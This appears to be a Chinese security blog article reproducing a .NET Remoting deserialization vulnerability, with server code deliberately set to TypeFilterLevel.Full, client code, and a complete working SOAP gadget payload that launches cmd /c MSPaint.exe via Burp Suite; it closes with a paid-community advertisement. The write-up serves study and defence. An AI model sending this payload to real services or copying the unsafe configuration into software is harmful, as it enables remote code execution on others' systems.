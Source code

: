 #  精华回顾 | 剖析.NET Remoting远程处理反序列化漏洞   
原创 专攻.NET安全的  dotNet安全矩阵   2024-02-15 10:32  
  
# 0x01 基本介绍  
  
.NET Remoting  
是微软  
随  
.NET  
推出的一种分布式应用解决方案，允许不同应用程序域之间进行  
RPC  
通信，这里的通信可以是在同一个进程中进行、一个系统的不同进程间进行、不同系统的进程间进行。  
.NET Remoting   
的概念与   
Java   
中的远程方法调用  
Java RMI  
非常类似，在   
Java   
的  
RMI  
中，传递的是序列化的  
Java  
对象，在   
.NET   
中传递的则是一个   
.NET   
对象。  
  
.NET Remoting 提供了两类格式程序接收器：BinaryFormatter和SoapFormatter。选择的类型很大程度上取决于连接分布式对象的网络环境的类型。对于可以发送并接收二进制数据的网络传输协议，可以使用System.Runtime.Serialization.Formatters.Binary名字空间中定义的BinaryFormatter类型。顾名思义，BinaryFormatter将消息对象序列化为一个二进制格式的流。这是消息对象在线缆间进行传输的最有效而简洁的表示方式。一些网络传输系统不允许发送和接收二进制数据。这类传输迫使应用程序在发送之前将所有的二进制数据转换成ASCII文本表示形式。在这种情况下.NET Remoting在System.Runtime.Serialization.Formatters.Soap名字空间中提供SoapFormatter类型。SoapFormatter使用消息的SOAP表示形式将消息序列化为流。  
# 0x02 服务端  
  
SoapServerFormatterSinkProvider  
类有一个重要的属性  
TypeFilterLevel  
，表示当前自动反序列化级别，支持的值为  
Low  
和  
FULL  
。  
默认情况下为  
Low  
，代表  
.NET Framework   
远程处理较低的反序列化级别，只支持基本远程处理功能相关联的类型，而取值为  
Full  
的时候则支持所有类型在任意场景下远程处理都支持，所以为  
Full  
的时候，存在着严重的安全风险。  
```
SoapServerFormatterSinkProvider()
{
    TypeFilterLevel = TypeFilterLevel.Full 
};
```  
  
注册HttpServerChannel并绑定在1234端口，RegisterWellKnownServiceType发布URI地址为VulnerableEndpoint.rem的远程调用对象，具体代码如下  
```
IDictionary hashtables = new Hashtable();
hashtables["port"] = 1234;
hashtables["proxyName"] = null;
hashtables["name"] = "Test Remoting Services";
HttpChannel serverChannel = new HttpChannel(hashtables, null, soapServerFormatterSinkProvider);
ChannelServices.RegisterChannel(serverChannel, false);
RemotingConfiguration.RegisterWellKnownServiceType(typeof(RemoteObject1), "VulnerableEndpoint.rem", WellKnownObjectMode.Singleton);
```  
# 0x03 客户端  
  
客户端通过远程对象地址  
http://localhost:1234/VulnerableEndpoint.rem  
建立  
HttpServerChannel  
通信，然后使用  
Activator.GetObject  
获取  
RemoteObject1  
远程对象并调用其方法  
```
String serverAddress = "http://localhost:1234/VulnerableEndpoint.rem";
RemoteObject1 obj1 = (RemoteObject1)Activator.GetObject(typeof(RemoteObject1), serverAddress);
Console.WriteLine("Calling GetCount - received: {0}", obj1.GetCount());
```  
  
# 0x04 漏洞复现  
  
POST请求报文复制到Burpsuite里，再把报文主体的内容替换成下方提及的攻击载荷，修改后的报文如下  
```
POST /VulnerableEndpoint.rem HTTP/1.1
User-Agent: Mozilla/4.0+(compatible; MSIE 6.0; Windows 6.2.9200.0; MS .NET Remoting; MS .NET CLR 4.0.30319.42000 )
Host: localhost:1234
Content-Length: 3054
Expect: 100-continue
Connection: Keep-Alive

<SOAP-ENV:Body><SOAP-ENV:Fault id="xref-1"><faultcode id="xref-2">SOAP-ENV:Server</faultcode><faultstring id="xref-3"> **** System.Exception - Exception of type 'System.Exception' was thrown.</faultstring><detail xsi:type="x1:ServerFault" xmlns:x1="http://schemas.microsoft.com/clr/ns/System.Runtime.Serialization.Formatters"><exceptionType xsi:null="1" /><message xsi:null="1" /><stackTrace xsi:null="1" /><exception href="#xref-4" /></detail></SOAP-ENV:Fault><x2:Exception id="xref-4" xmlns:x2="http://schemas.microsoft.com/clr/ns/System"><ClassName id="xref-5">System.Exception</ClassName><Message xsi:null="1" /><Data href="#xref-6" /><InnerException xsi:null="1" /><HelpURL xsi:null="1" /><StackTraceString xsi:null="1" /><RemoteStackTraceString xsi:null="1" /><RemoteStackIndex>0</RemoteStackIndex><ExceptionMethod xsi:null="1" /><HResult>-2146233088</HResult><Source xsi:null="1" /><WatsonBuckets xsi:null="1" /></x2:Exception><x3:ListDictionaryInternal id="xref-6" xmlns:x3="http://schemas.microsoft.com/clr/ns/System.Collections"><head href="#xref-7" /><version>1</version><count>1</count></x3:ListDictionaryInternal><x3:ListDictionaryInternal_x002B_DictionaryNode id="xref-7" xmlns:x3="http://schemas.microsoft.com/clr/ns/System.Collections"><key id="xref-9" xsi:type="SOAP-ENC:string">x</key><value href="#ref-1" /><next xsi:null="1" /></x3:ListDictionaryInternal_x002B_DictionaryNode><x2:Version id="xref-11" xmlns:x2="http://schemas.microsoft.com/clr/ns/System"><_Major>2</_Major><_Minor>0</_Minor><_Build>-1</_Build><_Revision>-1</_Revision></x2:Version><a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35"><ForegroundBrush id="ref-3">&lt;?xml version="1.0" encoding="utf-16"?&gt;
&lt;ObjectDataProvider MethodName="Start" IsInitialLoadEnabled="False" xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:sd="clr-namespace:System.Diagnostics;assembly=System" xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"&gt;
  &lt;ObjectDataProvider.ObjectInstance&gt;
    &lt;sd:Process&gt;
      &lt;sd:Process.StartInfo&gt;
        &lt;sd:ProcessStartInfo Arguments="/c MSPaint.exe" StandardErrorEncoding="{x:Null}" StandardOutputEncoding="{x:Null}" UserName="" Password="{x:Null}" Domain="" LoadUserProfile="False" FileName="cmd" /&gt;
      &lt;/sd:Process.StartInfo&gt;
    &lt;/sd:Process&gt;
  &lt;/ObjectDataProvider.ObjectInstance&gt;
&lt;/ObjectDataProvider&gt;</ForegroundBrush></a1:TextFormattingRunProperties></SOAP-ENV:Body>
```  
  
点击Send按钮运行后成功发出请求，服务端返回500错误，但载荷成功执行启动MSPaint.exe画图进程，如下图所示  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8WnVwAwhibiaUskzogjP6B1YuqWUrH6IKetL9Jxia7fFzbSEKtQKl9lmBAuu2O5qjzuEeYe2BKNnzkg/640?wx_fmt=png "")  
# 欢迎加入星球  
  
为了更好地应对基于.NET技术栈的风险识别和未知威胁，dotNet安全矩阵星球从创建以来一直  
聚焦于.NET领域的安全攻防技术，定位于  
高质量安全攻防星球社区，也  
得到了许多师傅们的支持和信任，通过星球深度连接入圈的师傅们，一起推动.NET安全高质量的向前发展  
。经过运营团队成员商议一致同意给到师傅们最大优惠力度，  
**只需129元就可以加入我们。**  
  
星球汇聚了  
各行业安全攻防技术大咖，并且每日分享.NET安全技术干货以及交流解答各类技术等问题，社区中发布**很多高质量的.NET**  
安全资源，可以说市面上很少见，都是干货。其中主题包括  
**.NET Tricks、漏洞分析、内存马、代码审计、预编译、反序列化、webshell免杀、命令执行、C#工具库**  
等等，后续还会倾力打造  
**专刊、视频**  
等配套学习资源，循序渐进的方式引导加深安全攻防技术提高以及岗位内推等等服务。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58Ueoynsb0my3uzMAb7VwM5bgtnb4nbl4c9xdEjGraUXic6pO0p38xmWiaRQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibHErRN3IhgSaicia7Rl5SF0plpcuicd0KG8Cn7vGczlBRtvSJvicWejH7TOro6AGLQ627SvVzxzBnphg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y8DlZsGiaRRGghficKFQt58UeoxTMuRezdHEJu6Hp08Xgm2F49cyBI1zlcj5XqLJK8zedWlUjibYmia3g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9y0BnibYCn1b9GMKqxd1Z5A1DLLJ9YxZeCn52XA1Kw7T5ibWCv89ZXpGjPOY7hXBDRVwNdKbMLZR3A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Y9feCUqrmRUUUMCjqQ7MG3YscC6oKrO2kc3qL0lda2b66pRicoNibOtaiafk7DsDMRPSFSp5SYuNUAvg/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
